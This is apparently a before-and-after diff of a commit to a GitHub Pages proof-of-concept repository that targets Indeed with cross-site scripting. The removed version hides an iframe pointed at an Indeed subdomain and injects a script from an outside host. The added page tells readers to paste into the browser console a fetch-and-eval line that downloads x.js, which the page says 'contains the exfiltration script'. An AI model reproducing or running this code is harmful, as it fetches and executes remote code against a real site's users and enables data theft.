

Before and after one commit to AmirWilayah/indeed-xss-poc-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,20 +1,18 @@
-<iframe
-  src="https://worker-adhoc-shifts.indeed.com"
-  style="width:0;height:0;display:none"
-  onload="inject()"
-></iframe>
-
-<script>
-function inject() {
-  const iframe = document.querySelector("iframe");
-  try {
-    const win = iframe.contentWindow;
-    const doc = win.document;
-    const s = doc.createElement("script");
-    s.src = "https://amirwilayah.github.io/indeed-xss-poc-/x.js";
-    doc.head.appendChild(s);
-  } catch (e) {
-    console.error("Injection failed:", e);
-  }
-}
-</script>
+<!DOCTYPE html>
+<html>
+<head>
+  <title>Indeed XSS PoC</title>
+  <meta charset="UTF-8">
+</head>
+<body>
+  <h1>Indeed XSS Proof of Concept</h1>
+  <p>This page does not exploit directly due to browser security restrictions (CSP & SOP).</p>
+  <p><strong>Paste the payload below into the browser console on the vulnerable Indeed page:</strong></p>
+  <pre><code>
+fetch("https://amirwilayah.github.io/indeed-xss-poc-/x.js")
+  .then(r => r.text())
+  .then(eval);
+  </code></pre>
+  <p>This will load <code>x.js</code> which contains the exfiltration script.</p>
+</body>
+</html>
```
